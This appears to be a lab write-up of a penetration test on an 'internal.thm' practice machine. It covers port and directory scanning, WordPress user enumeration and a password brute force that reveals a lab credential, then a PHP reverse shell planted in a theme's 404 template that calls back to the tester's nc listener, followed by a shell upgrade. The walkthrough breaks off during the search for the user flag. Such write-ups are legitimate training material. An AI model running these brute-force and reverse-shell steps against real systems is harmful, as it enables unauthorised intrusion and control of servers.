## Scenario

> A client that wants a penetration test conducted on an environment.
> 
> Scope
> 
> You must conduct an external, web app, and internal assessment of the provided virtual environment. This is a black box penetration testing assignment. Minimal information is provided; you must conducted the attack from the eyes of a malicious actor. You must secure two flags as proof of exploitation:
> 
> ```
> User.txt  
> Root.txt  
> ```
> 
> Additionally, the client has provided the following scope allowances:
> 
> ```
> Ensure that you modify your hosts file to reflect internal.thm  
> Any tools or techniques are permitted in this engagement  
> Locate and note all vulnerabilities found  
> Submit the flags discovered to the dashboard  
> Only the IP address assigned to your machine is in scope  
> ```
> 
> Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

Access via: `10.114.168.23`

## User.txt

Visiting the target IP directly in the browser landed on the stock Apache default page, with no custom content at the site root.



I started with a port scan to see what was actually running.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.168.23 -sV -sC 

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:00 +0200
Nmap scan report for 10.114.168.23
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.82 seconds
```

**Breakdown:**

- `sudo` runs Nmap with raw-socket access
- `nmap` is the scanner
- `10.114.168.23` is the target
- `-sV` probes open ports for service and version information
- `-sC` runs Nmap's default NSE scripts

Only SSH (22) and HTTP (80) were open — nothing beyond what the default Apache page already suggested. Per the scope allowance, I pointed `internal.thm` at the target in my hosts file, since the scenario's vhost-based content would only be reachable under that hostname.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo vim /etc/hosts                             

[sudo] password for —REDACTED—: 
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat /etc/hosts                                                                                                            

—SNIP—
10.114.168.23	internal.thm
```

With only a single website to work from, and nothing turned up by the port scan itself, I fuzzed for hidden directories under that vhost.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://internal.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c 

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 35ms]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 34ms]
blog                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 3537ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 35ms]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 34ms]
```

**Breakdown:**

- `ffuf` is the fuzzing tool
- `-u http://internal.thm/FUZZ` sets the target URL, with `FUZZ` marking where each wordlist entry is substituted
- `-w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt` is the wordlist of candidate directory and file names
- `-ic` ignores comments in the wordlist file
- `-c` colours the output for readability

Four directories turned up straight away: `wordpress`, `blog`, `javascript`, and `phpmyadmin`. I left the scan running in the background (it eventually completed against the full ~220,000-word list, finding only one further entry, `server-status`, returning a 403) and checked each of the four hits in the browser while it continued.

`/wordpress/` resolved to a WordPress site named "Internal" that returned a 404 "page can't be found" — a WordPress install with no page at that path.



`/blog/` resolved to a different front end of the same "Internal" WordPress site, this time with actual content — a single "Hello world!" post, the WordPress default first post.



I checked the stack behind this page with Wappalyzer.



`/javascript/` returned a straight 403 Forbidden from Apache, with nothing further to work with there.



`/phpmyadmin/` loaded a standard phpMyAdmin login form.



With an admin login panel on the WordPress site itself as a likelier target first, I ran `wpscan` against `/blog/` to enumerate valid usernames.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wpscan --url http://internal.thm/blog --disable-tls-checks -e u 

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
[+] WordPress theme in use: twentyseventeen
[+] Enumerating Users (via Passive and Aggressive Methods)

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
[i] 1 user(s) Identified.
```

**Breakdown:**

- `wpscan` is the WordPress-specific security scanner
- `--url http://internal.thm/blog` targets the blog installation
- `--disable-tls-checks` skips TLS certificate validation, irrelevant here since the site is plain HTTP but included out of habit
- `-e u` enumerates WordPress usernames

This confirmed a single valid username, `admin`, and also confirmed the WordPress version (5.4.2) and active theme (`twentyseventeen`) along the way. With a username in hand, I ran a password attack against it over WordPress's XML-RPC interface, which `wpscan` had already flagged as enabled.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wpscan --url http://internal.thm/blog --disable-tls-checks -U admin -P /usr/share/wordlists/rockyou.txt 

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                                                 
Trying admin / lizzy Time: 00:01:35 <...> (3885 / 3885) 100.00% Time: 00:01:35

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

**Breakdown:**

- `-U admin` fixes the username to attack
- `-P /usr/share/wordlists/rockyou.txt` supplies the password wordlist to try against it

This cracked the password: `admin` / `my2boys`.

I tried these credentials against the phpMyAdmin login found earlier, since credential reuse between a site's WordPress admin and its database admin panel is common.



This failed, returning an authentication error from the database layer itself.



Ruled out: the WordPress credentials don't carry over to phpMyAdmin's own login. I switched to attacking the WordPress admin panel directly instead, reached via the "Log in" link in the blog's own footer.



This led to the standard WordPress login form.



I logged in with the cracked credentials and reached the admin dashboard.



Confirmed: the login succeeded.



With admin access to the WordPress dashboard, the fastest route to code execution is usually editing a theme or plugin file directly through the built-in Theme Editor, since WordPress will execute whatever PHP is saved there. I opened Appearance → Theme Editor and looked at what was available.





I planned to replace the content of a 404 template file with a PHP reverse shell, since that file executes arbitrary PHP whenever it's requested and isn't something a normal visitor would need to see rendered correctly. 

After restarting, I picked the Twenty Twenty theme's 404 template and replaced its contents with the pentestmonkey `php-reverse-shell`, with the `$ip` and `$port` variables set to my `tun0` address and listener port.



```php
$ip = '—REDACTED—';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

I saved the change.



With a listener running, I triggered the shell by requesting the modified file directly:

```
http://internal.thm/blog/wp-content/themes/twentytwenty/404.php
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 4444 

listening on [any] 4444 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.168.23] 38200
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:35:46 up 39 min,  0 users,  load average: 0.04, 0.03, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

The shell connected as `www-data` — confirming that requesting the file executed the embedded PHP as the web server user, rather than returning it as plain text. I upgraded the shell for usability:

```shell
$ which python3

/usr/bin/python3

$ which bash                          

/bin/bash

$ python3 -c 'import pty; pty.spawn("/bin/bash")' 

www-data@internal:/$ ^Z
zsh: suspended  nc -lvnp 4444
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg 

[1]  + continued  nc -lvnp 4444

www-data@internal:/$ export TERM=xterm-256color
www-data@internal:/$ stty rows 52 columns 236
```

With a working interactive shell, I searched for the user flag:

```shell
www-data@internal:/$ find / -type f -name "*.txt" 2>/dev/null | grep -i user

/var/lib/cloud/instances/iid-datasource-none/user-data.txt
/usr/share/doc/cloud-init/examples/user-script.txt
/usr/share/doc/cloud-init/userdata.txt
/usr/share/doc/phpmyadmin/html/_sources/user.txt
/usr/share/doc/phpmyadmin/html/_sources/user.rst.txt
```

None of these were the flag — they were all documentation or cloud-init boilerplate, confirmed by checking the phpMyAdmin one directly:

```shell
www-data@internal:/$ cat /usr/share/doc/phpmyadmin/html/_sources/user.txt

User Guide
==========
—SNIP—
```

A search for "flag" by name also came back empty:

```shell
www-data@internal:/$ find / -type f -name "*.txt" 2>/dev/null | grep -i flag
www-data@internal:/$ find / -type f -name "User.txt" 2>/dev/null
```

